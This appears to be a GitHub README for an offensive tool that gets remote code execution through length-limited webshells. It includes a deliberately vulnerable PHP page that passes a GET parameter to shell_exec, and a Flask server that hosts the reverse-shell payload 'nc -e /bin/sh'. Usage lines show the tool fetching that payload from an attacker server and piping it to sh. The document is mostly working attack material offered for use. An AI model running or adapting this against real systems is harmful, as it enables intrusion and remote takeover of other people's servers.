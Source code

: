 # Description
Tool to RCE in limited input length webshells.  
It pipes the payload to sh, you can customize it with a few changes in the source code (python is already done, just uncomment it), also you could modify it to execute commands directly.

# Usage
```
python3 lentool.py -t http://targetexample.com/?start -u http://myserverexample.com
--target, -t: Target URL with param.  
--url, -u: Web server hosting the payload.
```
 # POC
 Vulnerable application:
 ```php
 <?php
 
$sandbox = '/home/estse/sandbox/';
@mkdir($sandbox);
@chdir($sandbox);

if (!isset($_GET['start'])){
	show_source(__FILE__);
	exit;
}

// This will return output only for id and ps.
if (strlen($_GET['start']) < 5){
	echo shell_exec($_GET['start']);
} else {
	echo "Please enter a valid command";
}

?>
 ```
 Flask server to host the payload:
 ```python
 from flask import Flask, Response
 
app = Flask(__name__)
 
@app.route('/')
def i():
    return Response("nc -e /bin/sh 127.0.0.1 1234", headers={'Content-Type': 'text/plain'}, status=200)
 
if __name__ == '__main__':
    app.run(host='0.0.0.0',port=4321)
 ```
 Run:
 ```
 python3 lentool.py -t http://127.0.0.1:1808?start -u 127.0.0.1:4321
 ```
 

https://user-images.githubusercontent.com/40002393/154507901-35ff8c8d-dc28-4fff-9064-d1952660efd9.mp4


